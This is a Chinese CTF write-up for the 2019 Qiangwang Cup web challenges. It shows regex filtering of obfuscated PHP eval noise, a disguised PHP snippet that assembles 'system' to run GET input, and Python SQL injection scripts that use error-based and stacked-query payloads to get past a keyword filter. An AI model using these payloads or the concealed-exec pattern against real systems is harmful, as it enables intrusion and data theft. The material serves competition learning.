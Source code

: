 ```yaml
---
layout: post
title: 2019 强网杯赛题总结
date: 2019-06-14 12:34
tags:
- CTF
- web
categories: CTF
description: 强网杯
---
```

虽然自己经常参加 CTF，但是现在的我不再是为了 CTF 而打这些比赛。CTF 比赛更应该是选手和选手、出题人和选手思想上的一次交流和汇聚。希望无论是出题人还是做题人，大家能把高质量的出题和高质量的做题作为标准要求自己。

这次强网杯题目虽然不难，但是我想在这篇文章分享自己的一些收获：

- 快速编写正则表达式
- PHP 拼接恶意函数
- 重新整理 SQL 注入笔记

### 快速编写正则表达式

对应这次比赛的高明的黑客题目，是一个 [www.tar.gz](https://saferman.github.io/assets/downloads/2019QWB/www.tar.gz) PHP 源码审计题目

文件内容非常的混乱，不仅是命令混乱，代码还充斥着许多无用的内容，而且文件数量居多。代码片段如下：

```php
$Y5j9bNzjt = '$LZ8S = \'Cim\';
$J5v5nitFL2 = \'W29bgm\';
$mNF = \'Mktt0IEVs\';
$S40MzJXkA = \'Vma\';
$ueYq4Npy = \'iPO\';
$sLVL = \'LHXqKH\';
$LZ8S .= \'yBzc9 mjvRu\';
preg_match(\'/lxyVk3/i\', $mNF, $match);
print_r($match);
$S40MzJXkA = $_POST[\'FdH84ubu0n7\'] ?? \' \';
$ueYq4Npy = $_GET[\'m9 teSY4xtRUZM\'] ?? \' \';
var_dump($sLVL);
';
eval($Y5j9bNzjt);
```

最恶心的是，静态代码审计工具会扫出 eval 这类执行漏洞 4000 多个，全是上述这种根本无法利用的漏洞。因此第一个工作就是需要过滤掉所有**绝对**无法被利用的依次漏洞代码。比如下面这几种：

```php
$_GET['EtmXcibpZ'] = ' ';
echo `{$_GET['EtmXcibpZ']}`;
# 或者这种
$a = $_GET['a'] ?? ' '; 
echo $a;
```

```php
// 注释里面的恶意代码 ...... 无语
```

```php
if('l8DxhESdm' == 'sKmGHy6Y2')
 eval($_GET['l8DxhESdm'] ?? ' ');
```

等等。这些无用的疑似恶意代码基本都是一个模板，用正则过滤即可。贴出代码的一部分仅供参考：

```python
re.sub(r"(if\('([0-9a-zA-z_]*)'\ ==\ '([0-9a-zA-z_]*)'\)[^;]*;)","",text)
re.sub(r"/\*[^*]*\*/","",b)
d = re.findall(r"\$(.*) = \$_GET\['([0-9a-zA-Z_]*)'\]\ \?\? ' ';",c)
        for i in d:
            e = re.findall("\$"+i[0]+" = .*",c)
            if len(e)==2 and "GET" not in e[0] and "GET" in e[1]:
                c = re.sub("\$"+i[0]+" = .*","",c)
            else:
                e = re.findall(".*\$"+i[0]+".*",c)
                print e
 f = re.findall(r"\$_GET\['([0-9a-zA-Z_]*)'\] = ' ';",c)
        for i in f:
            g = re.findall(".*"+i+".*",c)
            if len(g)==2 and "' '" in g[0]:
                c = re.sub(".*"+i+".*","",c)
```

还就没写正则表达式了，写的过程中不断地调试挺耽误时间的。这道题目的最终漏洞点在后面再详讲。

所以自己比赛结束后特地总结了正则表达式相关的知识，不断练习以达到现在可以**不参考不调试**编写正则表达式。

> 重点是多练习！！

相关知识做个简单的总结如下：

1. 理解正则解析流程

   re 模块会将正则表达式 pattern 字符串传递给正则表达式引擎进行解析，因此字符串里的 ^、*、\ 这些字符是什么含义是在正则引擎解析的，在编写 py 代码的时候，字符串本身是按照 py 解析引擎处理的，因此你在字符串前面加 r 和不加 r 区别是很大的。

   在编写复杂的正则表达式要正确处理好 \ 转义符号，在 py 解析引擎中有转义的功能，在正则引擎里 \ 仍然有转义的功能。

2. 正则表达式引擎原理

   这部分细讲可以写很多内容，这里提几个关键字：

   ```
   NFA/DFA 回溯 
   DFA 自动机的时间复杂度是线性的，更加稳定，但是功能有限
   NFA 的时间复杂度比较不稳定，有时候很好，有时候不怎么好，好不好取决于你写的正则表达式
   ```

   >  Java 、.NET、Perl、Python、Ruby、PHP 等语言都使用了 NFA 去实现其正则表达式

   正则表达式的三种模式：贪婪模式、懒惰模式、独占模式。

3. 高质量的正则表达式分析网站

   这里推荐 郁离歌大佬博客提到的 [https://regex101.com/](https://regex101.com/)
   [https://www.debuggex.com/ ](https://www.debuggex.com/ ) 可视化正则表达式编辑网站

### PHP 拼接恶意代码

上面的代码审计经过正则过滤，最终剩下的有 GET 或者 POST 输入的，手工过滤发现漏洞代码：

```php
$XnEGfa = $_GET['Efa5 BVG'] ?? ' ';
$aYunX = "sY";
$aYunX .= "stEmXnsTcx";
$aYunX = explode('Xn', $aYunX);
$kDxfM = new stdClass();
$kDxfM->gHht = $aYunX[0];
($kDxfM->gHht)($XnEGfa);
```

这是手工拼接的恶意代码，Seay 静态审计这类扫不出来的。它的重点是 stdClass 这个类：

> stdClass 类是 PHP 的一个内部保留类，初始时没有成员变量也没成员方法，所有的魔术方法都被设置为 NULL

> It is useful for anonymous objects, dynamic properties, etc.

这道题目让我想起 2019 RCTF 题目——disable_function 禁用了一堆函数，然后绕过的方式是使用 FFI::cdef 调用 C 语言的函数绕过 disable_function 执行恶意代码。

类似的，我这里列举出我总结过的一些 CTF 出现少甚至未出现过的不安全的 PHP 特性：

- openssl_verify：错误返回 -1 被 if 当成 true
- filter_var：过滤结果不完全可信
- htmlentities：默认 ENT_COMPAT 不转义单引号
- error_log：底层也会调用 mail、mb_send_mail 相关函数，利用 LD 绕过 disable_function

有时间专门再写一篇详细讨论这些问题的文章。

### SQL 注入题目解答

再次梳理了 SQL 注入的笔记，但是这部分我只简单给出随便注题目解答过程：

题目数据库是 MariaDB

> MariaDB 打算保持与 MySQL 的高度兼容性，确保具有库二进制奇偶校验的直接替换功能，以及与 MySQL [API](https://zh.wikipedia.org/wiki/%E5%BA%94%E7%94%A8%E7%A8%8 B%E5%BA%8F%E6%8E%A5%E5%8F%A3) 和命令的精确匹配。

注入脚本：

```python
#- * -coding: utf - 8 - * -
import re
import os
import requests
url = "http://117.78.37.77:31192/"
payload = "1' and extractvalue(1,concat(0x7e,user(),0x7e))#"
params = {
    'inject':payload
}
proxies = {
    'http': 'http://localhost:8080'
}
r = requests.get(url,proxies=proxies,params=params)
print r.content.split("</html>")[1]
```

题目过滤条件：

```php
return preg_match("/select|update|delete|drop|insert|where|./i", $inject);
```

收集的信息：

```
supersqli@localhost 用户

10.0.27-MariaDB-0ubuntu0.16.04 版本

supersqli 数据库
```

堆叠注入和拼接字符串执行 SQL 语句：

```python
#- * -coding: utf - 8 - * -
import re
import os
import requests
# print hex(ord('s'))
url = "http://117.78.37.77:31192/"
# payload="-1';show tables; "
payload = "-1';set @saferman=concat('se','lect * from `1919810931114514`');PREPARE test from @saferman;EXECUTE test;" # 为什么一定要加#
# payload = '-1\';set @moxiaoxi=concat("se","lect `flag` from `1919810931114514` ");PREPARE test FROM @moxiaoxi;EXECUTE test;#'

params = {
    'inject':payload
}
proxies = {
    'http': 'http://localhost:8080'
}
r = requests.get(url,proxies=proxies,params=params)
print r.content.split("</html>")[1]
```


